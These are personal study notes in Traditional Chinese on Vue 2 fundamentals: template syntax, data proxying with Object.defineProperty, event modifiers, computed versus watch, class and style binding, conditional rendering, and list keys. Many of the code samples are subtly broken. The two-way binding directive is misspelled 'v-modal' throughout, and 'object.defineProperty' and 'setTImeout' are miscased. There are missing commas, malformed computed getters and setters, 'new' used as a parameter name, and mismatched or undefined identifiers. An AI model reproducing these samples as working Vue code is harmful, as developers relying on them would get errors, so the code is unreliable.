



## Vue 簡介

`構建用戶界面`的`漸進式`JavaScript 框架

- 數據變成介面
- 簡單應用核心庫，到引入各種插件開發更大的專案
- 組件化提高複用率，讓程式碼好維護
- 宣告式程式設計，無需直接操作 DOM，提高開發效率
- 虛擬 DOM + diff 算法

## 開始使用 Vue

- 剛上手可以先用 CDN(分成開發版/生產版)
- 熟悉後需要更多插件用 Vue Cli
- 安裝開發者工具，觀看開發提示訊息
- 引入開發版本 vue
- 關掉生產提示

```js
Vue.config.productionTip = false
```

## Hello World

- Vue 開始工作，要創建一個 Vue 實例，並且配置一個對象
- 指定一個 el 把它綁定上去
- root 容器的程式碼符合 html 規範，只是混入了一些 Vue 語法
- root 容器的程式碼被稱謂模板 template

### Vue 實例跟容器一一對應

- 兩個容器一個 vue 實例，會搭配第一個容器
- 一個容器搭配多個實例，會配到第一個實例
- 真實開發只會有一個 Vue 實例，搭配組件用

### 區分表達式跟陳述式

- 表達式會回傳值，可以放在任何一個需要值的地方 a、a+b、demo(1)、x === y ? 'a':'b'
- 陳述式像是語句 if()、for()

## 插值語法 {{ }}

- 雙括弧裡面可以讀取表達式或是 data 中的所有屬性，用於解析標籤體內容
- 資料驅動畫面，可以透過開發者工具看到改 data，畫面直接變動

## 指令語法 v 開頭的語法

- 用於解析標籤(屬性/事件)也可以讀取 data 中的所有屬性
- 例如 v-bind 可以針對標籤屬性動態綁定值

```html
<html lang="en">
  <head>
    ...
  </head>
  <body>
    <!-- 準備一個容器 -->
    <div id="root">
      <h1>Hello World {{ name }} {{school.name}}</h1>
    </div>
    <!-- 引入vue -->
    <script src="https://unpkg.com/vue@2"></script>
    <script>
      //  阻止生產提示
      Vue.config.productionTip = false
      //  創建Vue 實例
      new Vue({
        el: '#root', // el指定當前Vue實例綁定哪一個容器
        data: {
          // data用在儲存數據，讓el指定的容器使用，先寫成object
          name: '007',
          school: {
            name: '008',
          },
        },
      })
    </script>
  </body>
</html>
```

## 單向跟雙向數據綁定

- v-bind 單向綁定指資料變化到畫面也會變化(資料->畫面)，`v-bind:href=""`可簡寫成`:href=""`
- v-modal 雙向綁定指資料變化畫面會變化外，使用者介面互動也可以改變到資料(資料畫面)
- `v-modal:value="name"`可縮寫成 `v-modal="name"`
- 雙向綁定只能用在 input(有 value 值的表單元素)：單選、多選、select、textarea

```html
<body>
  <!-- 準備一個容器 -->
  <div id="root">
    單向數據綁定<input type="text" :value="name" /> 雙向數據綁定<input
      type="text"
      v-modal="age"
    />
  </div>
  <!-- 引入vue -->
  <script src="https://unpkg.com/vue@2"></script>
  <script>
    //  阻止生產提示
    Vue.config.productionTip = false
    //  創建Vue 實例
    new Vue({
      el: '#root', // el指定當前Vue實例綁定哪一個容器
      data: {
        // data用在儲存數據，讓el指定的容器使用，先寫成object
        name: '123',
        age: '18',
      },
    })
  </script>
</body>
```

## el / data 的兩種寫法

### el

- new Vue 時配置 el 屬性
- 先創 Vue 實例，之後再透過 vm.$mount('#root')掛載在指定的 el 值

```html
<script>
  Vue.config.productionTip = false
  //  創建Vue 實例
  new Vue({
    // el: '#root',
    data: {
      name: '123',
      age: '18',
    },
  })
  // 定時器演示動態掛載過程
  setTimeout(() => {
    vm.$mount('#root')
  }, 1000)
</script>
```

### data 兩種寫法

- 物件寫法：用一個 el 關聯容器，console.log(vm)，可以看到$都是 vue 的方法

```js
const vm = new Vue({
  el: '#root',
  data: {
    name: '123',
    age: '18',
  },
})
console.log(vm)
```

- 函式寫法：vm.$mount('#root') 掛載上去，組件需要用函式寫法
- Vue 管理的函式，不能寫成箭頭函式，因為箭頭函式沒有自己的 this，會抓到 global 的 window

```js
const vm = new Vue({
  el: '#root',
  data() {
    console.log(this) // 此處的this是vue全局物件
    return {
      name: '123',
    }
  },
})
```

## MVVM

- Modal: JavaScript Objects(數據)
- View: 模板
- ViewModal: Vue 實例
  - Data Bindings
  - DOM listeners
- vue 實例中的屬性跟原型(**proto**)中的東西，在模板都可以直接使用

```html
<html lang="en">
  <head>
    ...
  </head>
  <body>
    <!-- View -->
    <div id="root">
      <h1>Hello World {{ name }}</h1>
    </div>
    <script>
      //  View Modal
      new Vue({
        el: '#root',
        data: {
          // Modal
          name: '007',
          school: {
            name: '008',
          },
        },
      })
    </script>
  </body>
</html>
```

## Object.defineProperty 物件添加屬性

- 數據代理(數據劫持)、計算屬性等底層都有用到這個方法，比較高級
- Object.defineProperty(obj, prop, descriptor)
- obj 要定義屬性的物件
- prop 要被定義或修改的屬性名字
- descriptor 要定義或修改物件敘述內容
- 回傳值 被定義完或修改完屬性的物件
- 這個函式可以用來增加或修改物件中的屬性定義。在物件建立屬性後，這些屬性同時有被設定預設的設定，才能讓這些屬性被列舉、改變和刪除
- 而這個函式可以用來改變這些預設的設定。根據預設，被加到物件且使用 Object.defineProperty()的值都是 Immutable

- 若希望把 number 跟 person.age 綁定

```html
<html lang="en">
  <head>
    ...
  </head>
  <body>
    <div id="root">
      <h1>Hello World {{ name }}</h1>
    </div>
    <script>
      let number = 18
         let teacher = {
      	name: 'ms.wang',
      	gender: 'female'
      }

      object.defineProperty(teacher, 'age', {
      	value: 18,
      	enumerable: true, // 控制屬性是否可以列舉
      	writable: true,  // 控制是否可以複寫
      	configurable: true // 控制是否可以刪除
      	get: function(){
      		console.log('有人讀取age屬性')
      		return number
      	}
      	set(value){
      		console.log('有人修改age屬性，值是', value)
      		number = value
      	}
      })
    </script>
  </body>
</html>
```

## 數據代理：透過一個物件對另一個物件中屬性的操作（讀/寫）

- 可以透過 obj2 操作 obj.x 屬性

```html
<body>
  <div id="root">
    <h1>Hello World {{ name }}</h1>
  </div>
  <script>
    let obj = {
      x: 20,
    }
    let obj2 = {
      y: 19,
    }

    object.defineProperty(obj2, 'x', {
      get() {
        return obj.x
      },
      set(value) {
        obj.x = value
      },
    })
  </script>
</body>
```

## Vue 的 data 數據代理(數據劫持)

- 數據代理指的是`data`代理 `vm._data`，數據劫持描述的數據是 getter 跟 setter 被控制了，兩者都是 Object.defineProperty 的實現
- 模板本身可以讀取 vm，因此不用在模板裡面寫`_data.name`，直接寫 name 即可
- `_data`可以偵測到資料變化(原理後續詳述)
- 透過 Object.defineProperty()把 data 物件的所有屬性添加到 vm
- 當我們 data 添加屬性 name，Vue 會在 vm 的`_data` 物件裡生成一個屬性 name
- 並且在 vm 裡面生成一個變數 name，裡面有 getter、setter 函式，可以讀寫`_data.name`
- 可以透過下方小技巧來驗證 `vm._data` 等於 `options.data` 等於 `data`
- 模板上的{{ 變數 }}，不存在 data 裡面，會報錯
- 模板上的{{ 變數.x }} 的某個屬性 x，變數存在在 data 裡面，內部屬性 x 不存在不會報錯，只會 undefined

```html
<script>
  let data = {
    name: '尚硅谷',
    address: '科技園',
  }
  const vm = new Vue({
    el: '#root',
    data,
  })

  console.log(vm._data === data) // true
  console.log(vm._data.name) // 尚硅谷
  vm._data.name = '123' // 可以成功修改name值，畫面也會變化
  console.log(vm.name) // 123 資料也變化
</script>
```

### getter

- 如何觀察 vm.name = data 裡面的 name，是透過 data 的 getter 取得 `_data`的 name
- 修改 data.name，觀察 vm 的 name 跟 `_data.name` 變化，畫面也會變化

### setter

- 使用 vm.name 修改 name，會調用 setter 改變 data.name ，data 偵測到變化改變畫面

```html
<div id="root">
  <h1>名稱{{ name }}</h1>
  <h2>地址{{ address }}</h1>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      name: '尚硅谷',
      address: '科技網'
    }
  })
  vm.name = '123' // 畫面也會變化
</script>
```

## 事件處理

- 使用 v-on: xxx 或@xxx 綁定事件
- 事件的回調需要配置在 methods 物件中，methods 沒有數據代理因為不必要
- methods 中配置的函式，不要使用箭頭函式，不然 this 會變成 global window 而非 vm
- methods 中的函式都是 Vue 管理的函式，this 指向 vm 或組件
- ＠click="demo"跟@click="demo($event)"一樣，但後者可以傳 event 參數

```html
<div id="root">
  <h2>歡迎來到{{name}}學習</h2>
  <button @click="showInfo($event)">點我</button>
</div>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      name: '尚硅谷',
    },
    methods: {
      showInfo(event) {
        console.log(event)
        console.log(this) // 此處的this是vm
      },
    },
  })
</script>
```

### 事件修飾符

- prevent、stop、once、capture、self、passive 可以用.連續接著寫
- prevent: 阻止瀏覽器預設行為，例如 a 標籤挑轉頁面(event.preventDefault())

```html
<a href="http://www.google.com" @click.prevent="showInfo">點我</a>
```

- stop: 阻止事件冒泡(event.stopPropagation())(放子層)
- 若外面還有一層@click 監聽，範例的 div 也需要加

```html
<div @click="showInfo">
  <button @click.stop="showInfo">點我</button>
</div>
```

- once: 事件只觸發一次

```html
<button @click.once="showInfo">點我</button>
```

- capture: 事件傳遞改成捕獲模式(放父層)

```html
2->1 變成 1->2
<div @click.capture="showInfo(1)">
  div1
  <div @click="showInfo(2)">div2</div>
</div>
```

- self: 只有 event.target 是當前操作的元素才觸發事件，也能阻止冒泡

```html
<div class="demo1" @click.self="showInfo">
  <button @click="showInfo">點我</button>
</div>
```

- passive: 事件的默認行為立即執行，不需要等待 callback 結果才執行
- 子元素溢出產生滾軸，會先觸發事件執行完 callback，才會滾動（畫面卡頓）
- wheel.passive 先滾動不受到 callback 影響
- scroll 偵測滾動條變化，wheel 偵測滾輪

```css
.list {
  width: 200px;
  height: 200px;
  background-color: peru;
  overflow: auto;
}

li {
  width: 100px;
}
```

```html
<div id="root">
  <ul @wheel.passive="demo" class="list">
    <li>1</li>
    <li>2</li>
    <li>3</li>
  </ul>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      name: '尚硅谷',
    },
    methods: {
      demo() {
        for (let i = 0; i < 10000; i++) {
          console.log('#')
        }
        console.log('done')
      },
    },
  })
</script>
```

### 鍵盤事件

- 若 keyup 等按鍵事件沒有指定按鍵，則所有按鍵都會觸發
- e.key 輸出按鍵名稱，e.keyCode 輸出keycode
- 常用鍵盤 enter、delete(delete or backspace)、esc、space、up、down、left、right
- Vue 沒有提供(沒有在上面的)可以用原始的 keyCode 綁定，但要注意轉 kebab-case e.g. `@keyup.caps-lock`
- tab 自帶把焦點移出當前元素，不能綁定 keyup 只能能 keydown
- 系統修飾鍵 ctrl、alt、shift、meta 配合 keyup 使用，按壓手離開後才觸發
- 系統修飾鍵 ctrl、alt、shift、meta 配合 keydown 使用，只會單純觸發事件
- Vue.config.keyCodes 可以自定義鍵名 = keycode 值
- 不推薦用 keycode 綁定事件，可能因鍵盤狀況會有誤差 @keyup.13
- 若需要限定 ctrl+y 才能觸發，可以寫`@keydown.ctrl.y`

```html
<div id="root">
  <input
    @keyup.enter="showInfo($event)"
    placeholder="enter點下後會console出來"
  />
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      name: '',
    },
    methods: {
      showInfo(e) {
        console.log('input value, keycode:', e.target.value, e.key, e.keyCode)
      },
    },
  })
</script>
```

## 計算屬性

### 姓名案例/插值語法 {{ }}

- 如果用先前學的 methods 做
- 當 data 中的資料發生變化，模板會重新解析更新值，模板中間若有調用方法，會重新執行
- 沒有快取(緩存)，重複運算一樣的結果，效能相對不好

```html
<div id="root">
  <input type="text" v-modal="firstName" placeholder="firstName" />
  <input type="text" v-modal="lastName" placeholder="lastName" />
  <!-- 在{{ }}裡調用方法記得加上() 才會執行回傳值 -->
  <span>{{ fullName() }}</span>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      firstName: 'adam',
      lastName: 'sandler',
    },
    methods: {
      fullName() {
        return `${this.firstName} - ${this.lastName}`
      },
    },
  })
</script>
```

- 如果用 computed 做
- 計算屬性也可以直接出現在模板上，直接使用很方便
- 透過已經存在的屬性計算而來，不能跟 data 屬性撞名
- 底層使用 Object.defineProperty 的 getter 跟 setter
- get 函式何時會執行
  - 一開始掛載
  - 依賴數據(裡面的變數)發生變化
- set 函式非必要，若有主動修改資料的情形才需要加上
- 若要修改計算屬性，需要用 set 函式，且要 set 依賴的變數有發生變化
- 例如 fullName 沒寫 set 函式，vm.fullName = '張-三' 改 computed 值會報錯說 it has no setter
- fullName 是 firstName 跟 lastName 的組合結果，有加上 set(value){ fullName 修改連動 this.firstName 跟 this.lastName 的修改邏輯 } 才會更動畫面(畫面只監看這兩個屬性)



```html
<div id="root">
  <input type="text" v-modal="firstName" placeholder="firstName" />
  <input type="text" v-modal="lastName" placeholder="lastName" />
  <!-- 直接填寫屬性名 -->
  <span>{{ fullName }}</span>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      firstName: 'adam',
      lastName: 'sandler',
    },
    // 完整寫法
    computed: {
      // 當有人讀取fullName，get就會被調用，回傳fullName的值
      fullName() {
        get(){
          return `${this.firstName} - ${this.lastName}`
        },
        // 當fullName被修改時調用，在這邊是
        set(value){
          console.log('set', value)
          const arr = value.split('-')
          this.firstName = arr[0]
          this.lastName = arr[1]
        }
      },
    }
  })
</script>
```

- computed 簡寫，當不會用到 setter 時可以直接寫一個函式

```js
computed: {
  fullName() {
    return `${this.firstName} - ${this.lastName}`
  },
}
```

## 監視屬性

### 天氣案例/點擊切換畫面文字

- 使用 data、computed 搭配 methods

```html
<div id="root">
  <h2>今天天氣很{{ info }}, {{ count }}</h2>
  <button @click="changeWeather">切換天氣</button>
  <!-- 不好讀  -->
  <button @click="isHot = !isHot; count++">切換天氣</button>
  <!-- vm裡面沒有alert方法會報錯  -->
  <button @click="alert(1)">切換天氣</button>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      isHot: true,
      count: 0,
    },
    computed: {
      info() {
        return this.isHot ? '炎熱' : '涼爽'
      },
    },
    methods: {
      changeWeather() {
        this.isHot = !this.isHot
        this.count++
      },
    },
  })
</script>
```

- watch 監視屬性變化，當被監視的屬性變化，會自動調用後方寫的函式
- watch 內配置的值是一個物件，key 值可用單引號寫監視屬性(data/computed 等) ，value 就是後方的{ }，會傳一個地址值，地址不變就不會觸發
- 有 immediate 跟 deep 物件可以配置，immediate 表示初始化就執行，deep 屬性會偵測物件深層屬性變化，沒有設置時只監聽第一層
- 監視不存在的屬性，不會觸發函式，也不會報錯
- 天氣範例設定當 isHot 改變，調用 handler，handler 裡面可以傳入兩個參數，新舊值，若還沒有變化過舊值會是 undefined

```html
<div id="root">
  <h2>今天天氣很{{ info }}, {{ count }}</h2>
  <button @click="changeWeather">切換天氣</button>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      isHot: true,
      count: 0,
    },
    computed: {
      info() {
        return this.isHot ? '炎熱' : '涼爽'
      },
    },
    methods: {
      changeWeather() {
        this.isHot = !this.isHot
        this.count++
      },
    },
    watch: {
      // 單引號可加可不加
      isHot: {
        handler(newVal, oldVal) {
          console.log(newVal, oldVal)
        },
        immediate: true,
      },
    },
  })
  // 可以等某些條件觸發後再加載監視
  vm.$watch('isHot', {
    immediate: true,
    handler(newVal, oldVal) {
      console.log(newVal, oldVal)
    },
  })
</script>
```

- 監視 data 巢狀物件內部單個屬性的變化，可以用屬性.內部屬性
- 監視巢狀物件所有屬性，使用 deep:true，因為遍歷深度屬性會影響效能所以預設不開啟
- Vue 會監視巢狀物件內部數據改變，驅動畫面變化，但 watch 的 value{}是看地址，即便內部數值修改地址也不會改變，需要設置 deep:true 觸發遍歷內部屬性看是否有更動的值

```html
<div id="root">
  <h2>今天天氣很{{ info }}, {{ count }}</h2>
  <button @click="changeWeather">切換天氣</button>
  <hr />
  <h3>a的值是{{numbers.a}}</h3>
  <button @click="numbers.a++">a++</button>
  <h3>b的值是{{numbers.b}}</h3>
  <button @click="numbers.b++">b++</button>
  <button @click="numbers = {a: 666, b 888}">徹底修改numbers</button>
</div>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      isHot: true,
      numbers: {
        a: 1,
        b: 2,
        c: {
          d: {
            e: 100,
          },
        },
      },
    },
    computed: {
      info() {
        return this.isHot ? '炎熱' : '涼爽'
      },
    },
    watch: {
      isHot: {
        handler(newVal, oldVal) {
          console.log(newVal, oldVal)
        },
        immediate: true,
      },
      // 監視巢狀物件的單個屬性變化
      'numbers.c.d.e': {
        handler() {
          console.log('a is changed')
        },
      },
      // 監視巢狀物件所有屬性變化
      numbers: {
        handler() {
          console.log('numbers changed')
        },
        deep: true,
      },
    },
  })
</script>
```

- watch 簡寫，當不使用 deep 跟 immediate，直接寫一個函式即可

```js
watch: {
  isHot(new, old){
    console.log(new, old)
  }
}

vm.$watch('isHot', function(newVal, oldVal) {
  console.log(newVal, oldVal)
})
```

## computed vs watch

- 不用處理非同步的時候寫 computed，computed 能完成的 watch 都可以完成，但寫 computed 比較精簡
- watch 能處理非同步，computed 不一定可以
- Vue 管理的函式都寫成普通函式，這樣 this 才會指向 vm 或組件
- 不被 Vue 管理的函式(計時器、ajax、axios、promise 的 callback)都寫成箭頭函式，this 往父層找的時候會找到 vm 或組件

### 姓名案例

- watch 需要在 data 準備一個 fullName 初始值，監聽的變數也需要寫比較多
- computed 只需要寫相對簡潔的程式碼

```html
<div id="root">
  <input type="text" v-modal="firstName" placeholder="firstName" />
  <input type="text" v-modal="lastName" placeholder="lastName" />
  <span>{{ fullName }}</span>
</div>

<!-- COMPUTED監看 -->
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      firstName: 'adam',
      lastName: 'sandler',
    },
    computed: {
      fullName() {
        return `${this.firstName} - ${this.lastName}`
      },
    },
  })
</script>

<!-- WATCH監看 -->

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      firstName: 'adam',
      lastName: 'sandler',
      fullName: 'adam - sandler',
    },
    watch: {
      firstName(val) {
        this.fullName = `${val} - ${this.lastName}`
      },
      lastName(val) {
        this.fullName = `${this.lastName} - ${val}`
      },
    },
  })
</script>
```

### 姓名案例(如果希望設定計時器)

- computed 不能處理非同步回傳(計時器 web API，非 Vue 管理的函式)，且 this 是 window
- 計時器回傳的結果無法先用變數存取，定時器 return 結果，因為定時器回傳的是 Timer ID，不是我們要的結果
- 且計時器不能寫成一般函式，必須寫成箭頭函式，因為計時器是丟到 web API 處理，如果寫一般函式 this 會變成 global 物件(window)，而箭頭函式沒有自己的 this，會抓父層 firstName 的 this，也就是 vm
- watch 不需要返回值，處理非同步相對簡單

```html
<!-- COMPUTED -->
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      firstName: 'adam',
      lastName: 'sandler',
    },
    computed: {
      fullName() {
        setTImeout(() => {
          console.log(this) // this是window
          return `${this.firstName} - ${this.lastName}`
        }, 3000)
        // 沒有return值
      },
    },
  })
</script>

<!-- WATCH -->
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      firstName: 'adam',
      lastName: 'sandler',
      fullName: 'adam - sandler',
    },
    watch: {
      firstName(val) {
        setTimeout(() => {
          this.fullName = `${val} - ${this.lastName}`
        }, 3000)
      },
      lastName(val) {
        setTimeout(() => {
          this.fullName = `${this.lastName} - ${val}`
        }, 3000)
      },
    },
  })
</script>
```

## :class 跟:style 動態調整樣式

### :class(最常用)

- 讓 Vue 控制樣式操作，使用`:class`動態添加樣式名稱
- 字串寫法，用來綁定 class 名不確定，由 data 的值決定
- 陣列寫法，用來綁定 class 名不確定，個數跟名字也不確定，可用陣列管理動態調整
- 物件寫法，用來綁定 class 名確定，但動態決定用不用(true/false)

### :style

- 讓 Vue 控制樣式操作，使用`:style`動態添加樣式名稱
- 物件寫法，用來綁定 style 名確定，但動態決定用不用(true/false)
- 陣列寫法，用來綁定 style 名不確定，個數跟名字也不確定，可用陣列管理動態調整

```html
<div id="root">
  <!-- 字符 -->
  <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
  <!-- 陣列 -->
  <div class="basic" :class="classArr">{{name}}</div>
  <!-- 物件 -->
  <div class="basic" :class="classObj">{{name}}</div>
  <!-- 物件 -->
  <div class="basic" :class="styleObj">{{name}}</div>
  <!-- 陣列 -->
  <div class="basic" :class="styleObj">{{name}}</div>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      // data 動態值
      mood: 'class1',
      // 可以用陣列操作方法來動態調整
      classArr: ['class1', 'class2', 'class3'],
      // class名字確定但動態決定用不用(true/false)
      classObj: {
        class1: false,
        class2: false,
      },
      styleObj: {
        fontSize: '40px',
        color: 'red',
      },
      styleArr: [
        {
          fontSize: '40px',
          color: 'blue',
        },
        {
          fontSize: '40px',
          color: 'green',
        },
      ],
    },
    methods: {
      changeMood() {
        // 字符串
        // this.mood = 'happy'
        // 陣列
        const arr = ['happy', 'sad', 'normal']
        const index = Math.floor(Math.random() * arr.length)
        this.mood = arr[index]
      },
    },
  })
</script>
```

## 條件渲染

### v-show

- v-show="表達式"
- DOM 節點還在，只是加上了`display: none屬性`
- 適合切換動態頻率高的元素

```html
<div id="root">
  <h2 v-show="a">歡迎來到{{name}}</h2>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      name: '尚硅谷',
      a: false,
    },
  })
</script>
```

### v-if

- v-if="表達式"
- DOM 節點不見，只有一個空註釋
- 適合切換動態頻率低的元素
- 可以用來做流程控制 v-if v-else-if v-else 的呈現，為一組判斷，中間不能有切斷

```html
<div id="root">
  <h2 v-show="a">當前的n值是{{number}}</h2>
  <button @click="n++">click++</button>
  <!-- n === 1 react vue都會出現 -->
  <div>react</div>
  <div v-if="n === 1">vue</div>
  <div v-if="n === 3">angular</div>
  <!-- 若v-if判斷成立，就不會再往下走，只會出現react，即便n === 1 兩者都成立 -->
  <div v-if="n === 1">react</div>
  <div v-else-if="n === 1">vue</div>
  <div v-else="n === 3">angular</div>
  <!-- 不需要再加上判斷式，只要前面的都不符合，v-else會直接出現 -->
  <div v-else>haha</div>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      number: 1,
      a: false,
    },
  })
</script>
```

### template 用法

當多數元素都用到同樣的判斷，可以外層用 template 包起來，且不破壞 html 結構，因此不影響 css 樣式或是選擇器跑掉

```html
<template v-if="n===1">
  <div>react</div>
  <div>vue</div>
  <div>angular</div>
</template>
```

## v-for 列表渲染

- (變數單數, index) in 陣列變數複數，index 適合畫面上表示順序
- key 值作為虛擬 DOM 物件的標示(需為唯一值)，有助演算法效能
- v-for 單純展示用 index 不會出問題，但是修改資料重新渲染時會因為演算法判斷出現問題，若沒有寫 key 值，會默認 index 作為 key
- 不建議使用 index 作為 key 值，index 每次對應到的資料，會因為數據改變而不同， Vue 會比對新舊 DOM 差異來生成新 DOM
  - 舊虛擬 DOM 找到一樣的 key，內容沒變會直接使用之前的真實 DOM；若虛擬 DOM 內容變了，會生成新的真實 DOM，替換畫面中之前的真實 DOM
  - 若舊虛擬 DOM 找不到一樣的 key，會創建新的真實 DOM，渲染到畫面
  - 因此若對原本的資料做`逆序`破壞性修改(unshift/shift)，會產生沒有必要的更新
  - 若結構包含 input 相關的 DOM，在有輸入內容的狀況下對資料做`逆序`(unshift/shift)破壞性修改，會產生錯誤 DOM 更新

```html
<div id="root">
  <h1>人員列表</h1>
  <button @click="add">添加人員</button>
  <ul>
    <!-- 遍歷陣列元素 -->
    <li v-for="person in persons" :key="person.id">
      {{ person.name }} - {{ person.age }}
      <input type="text" />
    </li>
  </ul>

  <ul>
    <!-- 遍歷物件屬性 -->
    <li v-for="(value, key) in car" :key="key">{{ key }} - {{ value }}</li>
  </ul>

  <ul>
    <!-- 遍歷指定次數-->
    <li v-for="(item, index) in 5" :key="index">{{ item }} - {{ index }}</li>
    <!--  item 12345  index 01234-->
  </ul>

  <ul>
    <!-- 遍歷字串 -->
    <li v-for="(char, index) in str" :key="index">{{ index }} - {{ char }}</li>
  </ul>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {
          id: '001',
          name: '張三',
          age: 18,
        },
        {
          id: '002',
          name: '李四',
          age: 19,
        },
        {
          id: '003',
          name: '王五',
          age: 20,
        },
      ],
      car: {
        name: 'toyota',
        price: '100',
        color: 'black',
      },
      str: 'hello',
    },
    methods: {
      add() {
        const person = {
          id: 004,
          name: '老劉',
          age: 21,
        }
        this.persons.unshift(person)
      },
    },
  })
</script>
```

### unshift 新的資料到 persons

- 新虛擬 DOM 用 key 值對比舊的虛擬 DOM
- key="0"的 li 內容不同，會更新為老劉，input 對比一樣，所以抓取張三的真實 DOM
- key="1"的 li 內容不同，會更新為張三，input 對比一樣，所以抓取李四的真實 DOM
- key="2"的 li 內容不同，會更新為李四，input 對比一樣，所以抓取王五的真實 DOM
- key="3"的 舊 DOM 沒有對應的 key，會新生一個 DOM 王五，因為是新的 li 元素，所以 input 沒有舊 DOM 可用，內容顯示空白



### push 新的資料到 persons

- 新虛擬 DOM 用 key 值對比舊的虛擬 DOM
- 因為 key 值都有對應的舊資料，會直接抓取之前的真實 DOM，更新正確
- 新增的 key，舊 DOM 沒有對應的 key，會新生一個新的 DOM ，是新的 li 元素，input 沒有舊 DOM 可用，內容顯示空白



## 列表過濾

- 新增一個 input，用 v-modal 綁定 data 一個 keyword 屬性
- 當 keyword 發生變化，就更新搜尋結果
- 不能修改到 persons 數據，另外定義一個屬性 filteredPersons
- 用 indexOf 取出過濾的資料，不符合搜索字串回傳-1，但 input 為空時回傳 0
- 使用 watch 實作，需要一開始初始化 filteredPersons，加上`immediate=true`才能

```html
<div id="root">
  <h1>人員列表</h1>
  <input type="text" />
  <ul>
    <li v-for="person in filteredPersons" :key="person.id">
      {{ person.name }} - {{ person.age }}
      <input type="text" placeholder="type some name" v-modal="keyword" />
    </li>
  </ul>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      keyword:'',
      filteredPersons: [],
      persons: [
        {
          id: '001',
          name: '馬冬梅',
          age: 18
        },
        {
          id: '002',
          name: '周冬雨',
          age: 19
        },
        {
          id: '003',
          name: '周杰倫',
          age: 20
        },
        {
          id: '004',
          name: '溫兆倫',
          age: 20
        }
      ],
    },
    watch:{
      keyword: {
        handler(val){
          this.filteredPersons = this.persons.filter(el => {
          return el.name.indexOf(val) !== -1
        }),
        immediate: true
        }
      }
    }
  })
</script>
```

- 使用 computed 實作

```html
<div id="root">
  <h1>人員列表</h1>
  <input type="text" />
  <ul>
    <li v-for="person in filteredPersons" :key="person.id">
      {{ person.name }} - {{ person.age }}
      <input type="text" placeholder="type some name" v-modal="keyword" />
    </li>
  </ul>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      keyword: '',
      persons: [
        {
          id: '001',
          name: '馬冬梅',
          age: 18,
        },
        {
          id: '002',
          name: '周冬雨',
          age: 19,
        },
        {
          id: '003',
          name: '周杰倫',
          age: 20,
        },
        {
          id: '004',
          name: '溫兆倫',
          age: 20,
        },
      ],
    },
    computed: {
      filteredPerson() {
        return this.persons.filter((el) => {
          return el.name.indexOf(val) !== -1
        })
      },
    },
  })
</script>
```

